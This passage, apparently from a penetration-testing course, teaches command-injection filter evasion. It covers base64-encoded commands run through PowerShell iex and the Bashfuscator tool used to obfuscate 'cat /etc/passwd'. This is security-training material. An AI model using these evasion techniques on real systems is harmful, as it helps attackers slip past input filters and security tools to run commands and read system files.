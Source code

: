 `Tip: Note that we are using <<< to avoid using a pipe |, which is a filtered character.`

Now we can use this command (once we replace the spaces) to execute the same command through command injection:

Even if some commands were filtered, like bash or base64, we could bypass that filter with the techniques we discussed in the previous section (e.g., character insertion), or use other alternatives like sh for command execution and openssl for b64 decoding, or xxd for hex decoding.



We use the same technique with Windows as well. First, we need to base64 encode our string, as follows:
```bash
PS > [Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('whoami'))
```

We may also achieve the same thing on Linux, but we would have to convert the string from utf-8 to utf-16 before we base64 it, as follows:
```bash
$ echo -n whoami | iconv -f utf-8 -t utf-16le | base64
```

Finally, we can decode the b64 string and execute it with a PowerShell sub-shell (iex "$()"), as follows:
```bash
PS > iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))"
```

# Evasion Tools
If we are dealing with advanced security tools, we may not be able to use basic, manual obfuscation techniques. In such cases, it may be best to resort to automated obfuscation tools. This section will discuss a couple of examples of these types of tools, one for Linux and another for Windows.

## Linux (Bashfuscator)
A handy tool we can utilize for obfuscating bash commands is [Bashfuscator](https://github.com/Bashfuscator/Bashfuscator). We can clone the repository from GitHub and then install its requirements, as follows:
```bash
$ git clone https://github.com/Bashfuscator/Bashfuscator
$ cd Bashfuscator
$ pip3 install setuptools==65
$ python3 setup.py install --user

$ ./bashfuscator -c 'cat /etc/passwd'
```

However, running the tool this way will randomly pick an obfuscation technique, which can output a command length ranging from a few hundred characters to over a million characters! So, we can use some of the flags from the help menu to produce a shorter and simpler obfuscated command, as follows:
```bash
$ ./bashfuscator -c 'cat /etc/passwd' -s 1 -t 1 --no-mangling --layers 1
```
